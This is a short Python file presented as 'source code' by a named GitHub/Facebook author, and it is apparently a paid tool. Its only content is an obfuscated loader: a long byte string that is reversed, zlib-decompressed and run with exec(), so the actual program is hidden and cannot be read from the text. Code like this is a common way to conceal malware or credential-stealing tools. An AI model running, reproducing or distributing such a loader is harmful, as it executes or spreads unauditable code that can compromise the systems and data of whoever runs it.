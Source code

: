 # Github: Alexx-Shohan
# Facebook: S H O H A N?
# Just Now - paid
# -------------------------------
_ = lambda __ : __import__('zlib').decompress(__[::-1]);exec((_)(b'\x1e_\xf6"\x0f\xf8@\x04\xcb\xde\x19v\xd9K&\xdbu\xc7\x9d\xb6\xe0,\x87m\xaf\xc4.\x83\x8b\x17\xbe9W\xe7\xd1\xe0>{\xe4\x0e\xbeH\xf2\x8d:|a\x8bC0\xfd9\x88\xbb\x81\xbb=rYo\xbdT\\9q\x0c\x881\xc4p\xa5\x8c\xfaQ\xe4\xd5\x0f\xa2}:U\xab3\x8a\x95J\xf6h\xd5\xa9\xa8\x86(\xebF\x88\xa0\xae\xf4\xa7x4p\xfe\xdd\xce\xec\x1c[\xf5\x81\x8e\xb2\xbeD\xb1`9S:Z\xbaI;?m\x19\xc6)~\xb3\xd3\xfc/\x16\xeb\xf4\xf1;\x8b9\xf8I\xc5\xb8\xfd\x8a8\xb2_Lp\x8e6\xe7pY\xdc\x9a\xee\x9cN\xe4\xcf\xb6-`\xadf\xf33\xef\xc3\xef\xd6\xc7\xe85\xfe\xa3\'X%\xf9\xe9\xc1\x8b\x85\xb6\xd6\xd5\xb6\xab\xe6\xf1s\xa4\x1d\x91\xb6\x9c\x8b\x1c\xe6\x16\x10\x1d\xbb\xbb\xbb\xc5\x12\xees.\xdf\\\xd6\x8a\xe0;]-\xaf\xb4\xbe=\x1f\x1d\x85\xfb\xd7q\xe1\xfc\xee>\xd4\x9eW$yw\x7f\x1f\xf3\x93=\xb2\xa4\x82\x16w\xcd\xd3\xb7D\xdd\'\x97\x96(I\xd53\xb0\x0f\x0f\xa6\xfb\x00j\r\xe4\xdf\x1f\xeb\xbd\xea\xcc\xe0\xf2\xeb3\x83g\x87\x8f\xc1\xbc\xdey~\xb4?S\xc7\xf5\x1f$E\x9a\xacX\xfb\x8e\xdb\xb7\xac\x9c\\\xfc\xe5X\xd1c@\xffm\xb4x,\xf84h\xcc\xf6\x8c\xcel\xd3\xaac\x16\xdcs6\x9e\x1cm:\xcca\x86g\xd5\xdeoR\x1e\xc5.\xa5\xf1v\x85\x1e\x96t\xa7n2\xc2y\x0f9\xeb\xe9E\xeb\xac\xa8<Jf-g7\x12\x8b\xbb\x93M|0\xfe\xd0\xf2\xef>a\xc8\xfd\xaf\x8bgN\'VP%\xdf\x82.9\xafj\xeb\xa3~]\xad\xee\xa7^\xd3\x1fK\xac\xb0\x1c\xbd\xc6\xbd\xaa}L4k\x1a\xbb\x87zZ\xc5\xa3N`\xd3Sgw)\xb1\x87\x81\x86u=Z0\xd1\x86\xa7\xf1\x88\xc9\x83\xa3\x1d\xa8\xe9\xd1\x96\xad\xe8m\xd8yn\x8b;\x1d\xf3\xf2\xca\xff\x0b\xc7\xfe\x8c\x85\xb3-\x85\\\x88\xb6x\t@\xa2tY=\xb7\xb1`=2\x8a\xb7\xd3[\xce\x9e0\xe2\xe4M0\xd8c,\xa2\xbb\x8c\xe42\x1a\x17I\xe6\xf3Z\xb7\xed\xc79\xcb\xe6\xd2g\xb9\xbdp\xe1\xd9#O\xf0q\xf5\xc5\xb8N\xd3\xe9|\xce)^x"\xb7\xd1P>\xe1\x83T\x12\xf1Y^\'\xd9LI\x12\xf5\xd6\xe0\xdb\xee\x00w\xe7\xc4\x8b\r\x11,\xe8\x82\n\xf3%\x89B\xf3\x04Q\xf9\xf7A\xfe\xfe\xb2\x86\xf3\xb7\x0cmp/\x8e\xb7\xebU\x15\xfc\xfe|\xb0\xf0Z0\x17\xd7F\xf7T\xaf\x0f|\xf2\x86(\xb3\x0c\n\x1a+\xe3Y\x7f\x1f\x1e^p\xbd\x0c2\xc9\n^\tby\x7f\xb4<\xc7{k\x89\xf1\n\xe0o0\xe8\xcf\x1b*\xa5\x89\xc9\xfaHo\x03\x0b\x8aI\xe50e\xcb\x80\x07|"\x8cl\xbe?\xc1\xc7U\x93\x1b\xc5d\xf1\xe0#\xa6s|\xadL\xb7?$\xc4\xe1\xabB\xb5j\xed\x89M\xfeRY)\x8a?!\x00\xadA\x00\x8b\xf4\xaa\x84\t\xf8\xc1\x01\x06\x08\x080@A\x82\x02\x0c\x10\x10`\x80\x83\x04\x04\x18  \xc1\x02\x068\n^1\xc0"\xfd*\xa7\x02\x7f7\xf1&\xfe$\xdf\xc4\x9b\xf8\x93\x7f\x12o\xe2M\xfcI\xbf\x897\xf2&\x92\x86\x0e\x84\x04:\x10\x10\xe8@C\xa1\x01\x0e\x84\x04:\x10\x10\xe8@C\xa1\x01\x0e\x84\x08:\x10\x14\xbeh@"\xfd*\xa1\x02\x7f0@I\x82\x02L\x10\x12`\x80\x93\x04\x04\x98 $\xc1\x01&\x08\t0@\x89\x82\x02\x97\xf4\x10\x08\xbfJ\xa8@\x9f\xed\x08\t\xb4 &\xd0\x80\x9bB\x02m\x08\t\xb4 &\xd0\x80\x9bB\x02mj:\x988\n^4\xe0\x1d\xdf\xb2\xa6\x04]\xa6\x8f7^\n#\x868B5W\xc7wt2\xd1\'\x06Q\x97\x05\xa7Bp7W\xe3\xe4\xc8\xfeJJ\x83\xe5\xa7Z\x18m\x85\x11\x18\xc5\xe2BI\x82\xc4J\xe2(\xc5\x99Z\xae\xc2\xc6\xbakR\xc9\x94\xca\xcbC\x1d1\x98/\xdf<\x83\x13\xcc\xb8\x80VQ\xb4\xef\xcb\x91}\tJ^\xfa\xe7\xb2\x1d\xc4/\xe4\x8b\xaf\xc8T\xf2eI\x1d\x1c\xba9\x98\xe5(\xa2-\xed6s\xce.\xbbfM\xff\xa5_\xd4y\xde\xbf\x13\xaf\xc4\xeb\xf1:\xfcN\xbf\x13\xaf\xc4\xeb\xf1:\xfcN\xbf#\xa6\xba\x9dU6\xaa\x8bUI\x95A\x95I\xaa\xa7J\xa0\xd5\xadbs\x0bZ\xebR\xd6\x82\x15\xaa\x04\xf3!\xfb>\xf1\xec\xf3\xc6y\x91V\x88\xad\xb5W\xc1`a\xdd\xaf\x86\xd9\xdcm\x90\x08\xbb\x18+7\x83\x1d(7\xf0\x93L\xd9T\x99\x97\x8c/l\xef.O"\xce\xa7\x1f\xc8\x93\xa2>\xa8{\xa0>e4~\xe7\xd7\xb1Bk\x1b\tR\nydV\xb6\x11\x197\xfa\xb7W\xe9\xd1\xf4\x1a\xb7\n\xd5\x8c\x1a\xb7?eD\xc7>\xe20f\xfc*61\xc0g\xdb\xc2\xf7\xcc\xf9\x95\x98tf/\n\xcd\x1cn\x7f\xdcd\x97\x96\x06l\xe1^\xb1\x99c?\xa1\xd1\xae\x08\xc2EF\xe3\x04a+\xdf7\xe3\x18\xc3\xce\x02\xc2i\xc1\xe9I\x9d`\x06\xedc\x04le\xec\x1e \xcf\xf5\r\x92\xa8-i^\xfe\x8b\xa3\xac/\xce\xb4}`\xfb\xae\xb0CG.\x1f\x06\xf5\xea\xc1\xcelM\xb0\xef\xc5\xe5\xc1\x83U\xaa\xf7-\xbc\xff\xda\x99l\xcbv\xcdT\xd6\xaa\xdb\xb4\xde\x10\xfe\xf5\xb5\xe9\xfe\x8b\xfdG\xba+\xfa\xa3h\xe1\xf6~0\xc03j\xbfr\xe0\xb7\xf8\x06\x0c\xe1\x0f2\x1d\xe0\xc1\xa3\xfdz\xb1=\xbag\xe9\x06\xad\xbc\xb65\xc1\xb3\xa3\x0f\xac\x0fI\xac\xbf\xf7\xb1\x03\xf2\xdam\x87\xd5\x8a(\xf2\xb0\xd6\x81\xb1\xd6\x0e\xd6\x97\xe5\xc3\xc0\\\xacZ\xfc\xban\r\xc5\xa6\xdd\x13qi\xe2pF\xf1\xfbO\xa5\xb3\xab\xda\x1d.\x90\xaa\xc2\xd1ns)\x84\x12\x88E\x0e\xc1~P?\xff\xe0\x0fRq6]\xdf\xb4\xf5\xed\xc4(<!\x1eh\xfc\x10g\x83\xdf\x836vo\xed\xc1\xebf}\xb6\xd3\x0cp\xbe\x07|\xb2\xf3\x18\x8a\xf0l.2\xednT\xa9\xab\xe2`e7k\x11\xbc;\x16\xa7\xc1\xde\xa6\xce\x02K-\xf3mVR\xdd\xa4h\xa5pv\xa4\xc8b\xa3\xf0\xf3\xe3\x1dj\xaa\x1f\xfbC\x0f\xc3X\xa8\xf8\x03FB\xc6Yo\x91\xf8b\x9f\x0ec<\x9bc\x05K\xab\xbb\xeb\xc7_R\x99t\xb0\xa2\x7fxHu\x0cSG\xde-p\x8a\xb9Z\xefEGz\xf6\xf0\x8f\x9ff^)\xe8\xbc\xe4o\xfa\x86\x9dj\xeb"\xf9\xbd\xc1}j\xdbSWE\xb3s\xce\xfdj\xcb\xab\xbe\xec\xbdL<\xb9\x7f\x95\xef\xc7O\x8a\xa6jmGF\x9aT}\x1d$m\x9b)\x86\xbf\x81\xd4T\xd1Q\xf7x\x87Zj99F{\x82|`\xd6j\x86\x19\x187yW|\xf4\xb4p\x18n\xff.\x10\xe3r\x9b\x94\xd0\xb9\xe4I\xba\x15\x82\x1c>\x10\xea\xe5\xc2\xf0\xbaAVSd\xd1V\xef\'\xfef;\x00\xe6\x1es`8#\x89q\n:1\x928\xf2t\x19h\x17u\xccMr\xd5\xdb,\x9b+`!\xd7\x15\x08\x93aU\xdbE\xd7WF\x8d\x9f,Yd^\xc5\xabxW\x1c%\x9f\x1bI\xfc\xa7\xe6\x13\xa5K(\xd3D\x9d\xb9\xf5\xdd#f$\rD\xa9R\xe5\xba6\x069\xac\x8d\xac\xd9\x97\x12P~J\xb7G\x1d\x1c1u\xd0\xcf\x04/\x90\x9a\xe4\x84\xaeb?p\x90\xff>\xc9\xe5.\xe8\x92\x8e\xb9\xad\xb1\xeb\xddK\x98\xf9H\x87r\x18Q{Y\xae\x97\x07D\x83\x17 \xa7\xae\xf0R\x90\xae\x82\xeeQ\xaa=w\xd7\x18\xe4l\xe8\xa6\x9e\x1c\x898\xbc\xcf\xd2\xc1\x00Q%\x98\x83\xe5\xe8\rU\xf72D\xf6\xadF\xec\xaas\x96H\xdd\xabw\xf9\x9fz\x0bA\xdc\x06\xb4\xfb\x8a\x08\xdf\xdf1\x9aI\x9c\r\xc5\xec~\xc1W\xc1ID\x92~\xe4\xe7\x9c\x19\xc7\x87+\xe0T\xb3O%\x8f\xfc\'\x13r\xef\xa2\xfb\x92\xc8\\b\xd8\x92>\x95\xcc3\xe4\xb0X\x99\x10u\x14\xdf1%\x0f1DJ,E\xb9\xa0)E:\x1dJ+Q\r\x0b\xa6E\xfb\x96\xe8\x13L\x18o\x04\xa5J\x9aK\x9c\xc5w\x14\x01!\xa0\x08P#,\xb2-\x85\x9b\xf8}\x86\xb7\xd1upG\xae\xb28aO/\xcf.\x0c]\xe8#\xe7\xa7\xe7\xc7\t\x81\x9e\x1f\xdcu\x85\xe9\xe5\xd6G\x04i\xd8v\xb1\xd3iY8\x9a\x84!r\x02\xdb;G\x0ep\x92p\xa6/\x91E\x18R\xf0\xb4`\xb4qz\xd0\xafXMJ\xae\x02\xdc\x10W\xdd\xa9\x8f\xc2D\x15)\xec\x02\x02\xee\xf88q8(\x89 ?T"\x82\xd4\'\xb10+b\xa7H_\xc0\x1b\xf2\xc8mM\xb6\x0f\xa8\x84\xdc\xa0\xa7\xf5\n\x02\x89\x810\xf0\xd8\x0f\xc2\x80\xf0\x0fV\t\xec\xd1\x02/\xce\xdb\x06NKyU6\xd6\x1c\x90\x99D\x8c\xe5\xadx(\xa25\xd8\xb0\x90@\xd5\xaaM\x82\xa4\x11\x1a\xa5\x9e\x91!\xb4T\x8al\x94"\x13k\x12\xd8@\rKT\x12\x00\xa5\x1b\x06i\xd8z\xb1\xf5\xd5D\xc2\x08"\xfc\xbf/\xd2\xaev\x9b\x0c\xc2\xf18\x928%\x9c\xf8\xe3\xc6V\x9dN\xaa\xca\xa4\xb1\xe7>\xa7 \xe6\x89\xb6\xd2\x17L\xbf\x99\xb6\xbe\xda\xf1.2\xf1.\xf93-\x1b\x99\xa7!T\x152\x0b\x14$\xe2\x03xg\xc2\x17\x83\x80J,\xcb\x00\x15\xbd\xae}*t\xe2\x0c\xf9p@\x13X\x99V\xce@\xcc\x90p\x04\x98\x92\x07\x8c\xe2\xa3*Q\n\x9aY\x8b<\xe7o\xcf\x1e\xb7E\x13\xa3y\xf8\x99a\xd6\x14i\x9f\xe1\xd7\x9c/\\\xce\x12-\x98\x90\x12)\xbd\xf0\xbaX,:\x82\x8d\xd0\xb0\x97qx\xcb.\x0e\xbc\x05\xe6U\x8fzC\xad(\x83$\xa3\x88/\x057%\xb9t\x10\xa2\xf5$\xf1>\x13s\xef\x7f\xc4\x86X$\x88Q\x16\xcf\xbe%B\xf52\x89\xa6YJ\xfa\xfc\x02\n\x16\x0bD\\0u|\xf9`\xf7\xa6\x1c\xf9\xecAD\xeec\x85~\x8dn\xe9\xbf=3=\xdd=I\x18\xa1\xda\x95+\x8a\xaa\xfb\xc6\xc2\x01%\xba{\xbeq\xbck\x12N\xbdb\x804\x83T\xb8\x0b\x93v\x19q\xafZ\x8f\xc62R\xe1\xd6\x02B\x07\xacY\x12\xb2\xae\xf7\xa2\x9f_\xff\x11\xc8\xe2s{Y\xed\x9cx'))
